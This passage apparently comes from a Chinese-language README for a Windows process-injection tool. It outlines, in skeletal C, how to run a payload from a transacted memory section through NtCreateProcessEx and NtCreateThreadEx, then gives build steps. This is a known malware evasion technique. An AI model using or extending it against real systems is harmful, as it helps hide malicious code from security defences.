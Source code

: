 #### 3. `wmain()`
主流程：

```c
int wmain(int argc, WCHAR* argv[]) {
    // 初始化 NT API 函数指针
    InitializeNtFunctions();

    // 读取载荷文件
    BYTE* payloadBuf = ReadFileToBuffer(payloadPath, &payloadSize);

    // 创建事务性内存节
    HANDLE hSection = CreateTransactedSection(payloadBuf, payloadSize);

    // 从内存节创建进程（关键步骤！）
    NtCreateProcessEx(&hProcess, ..., hSection, ...);

    // 查询进程信息
    NtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, ...);

    // 读取 PEB 获取 ImageBase
    NtReadVirtualMemory(hProcess, pbi.PebBaseAddress, &peb, ...);

    // 设置进程参数
    SetupProcessParameters(hProcess, &pbi, targetPath);

    // 计算入口点并创建线程
    ULONG_PTR entryPoint = (ULONG_PTR)peb.ImageBaseAddress + entryRVA;
    NtCreateThreadEx(&hThread, ..., hProcess, (LPTHREAD_START_ROUTINE)entryPoint, ...);

    return 0;
}
```

---

## 🛠️ 编译和使用

### 方式一：使用构建脚本（推荐）

#### Windows (MinGW)
```bash
# 确保已安装 MinGW/GCC
build.bat
```

#### Linux / MSYS2
```bash
chmod +x build.sh
./build.sh
```
